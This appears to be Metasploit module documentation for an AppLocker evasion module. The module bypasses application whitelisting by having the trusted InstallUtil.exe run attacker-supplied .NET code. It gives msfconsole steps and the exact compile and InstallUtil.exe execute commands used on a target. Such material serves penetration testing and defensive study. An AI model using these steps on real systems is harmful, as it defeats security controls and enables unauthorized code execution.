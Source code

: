 ## Intro

This module is designed to evade solutions such as software restriction policies and Applocker. 
Applocker in its default configuration will block code in the form of executables (.exe and .com, .msi), scripts (.ps1, .vbs, .js) and dll's from running in user controlled directories.
It enforces this by employing whitelisting, in that code can only be run from the protected directories and sub directories of "Program Files" and "Windows" 
The main vector for this bypass is to use the trusted binary InstallUtil.exe which is located within the trusted Windows directory and also has the ability to execute user supplied code.

## Vulnerable Application

This evasion will work on all versions of Windows that include .NET versions 3.5 or greater that has solutions such as Applocker or Software Restriction Policies active.

## Options

- **FILENAME** - Filename for the evasive file (default: install_util.txt).

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use evasion/windows/applocker_evasion_install_util`
  3. Do: `set PAYLOAD <payload>`
  4. Do: `run`
  5. The module will now display instructions of how to proceed
  6. `[+] install_util.txt stored at /root/.msf4/local/install_util.txt`
  7. `[*] Copy install_util.txt to the target`
  8. `[*] Compile using: C:\Windows\Microsoft.Net\Framework64\[.NET Version]\csc.exe /out:installutil.exe install_util.txt` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").
  9. `[*] Execute using: C:\Windows\Microsoft.Net\Framework64\[.NET Version]\InstallUtil.exe /logfile= /LogToConsole=false /U installutil.exe` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").

## References

https://attack.mitre.org/techniques/T1118/
